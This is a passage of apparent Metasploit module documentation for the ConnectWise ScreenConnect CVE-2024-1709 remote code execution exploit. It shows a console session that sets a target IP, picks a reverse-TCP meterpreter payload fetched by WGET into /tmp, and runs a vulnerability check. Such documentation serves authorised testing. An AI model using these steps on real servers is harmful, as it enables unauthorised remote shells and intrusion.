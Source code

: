 Note: Linux targets run an older version of ScreenConnect, which require an older version of Linux (Ubuntu 18.04 in
our testing), so `CURL` may not be available, the `FETCH_COMMAND` can be set to `WGET` instead. The `FETCH_WRITABLE_DIR`
should be set to a suitable value like `/tmp`.

```
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set RHOST 192.168.86.72
RHOST => 192.168.86.72
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 2
target => 2
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.72    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      whUoZoNn         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.72:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 20.3.31734 running on Linux.
```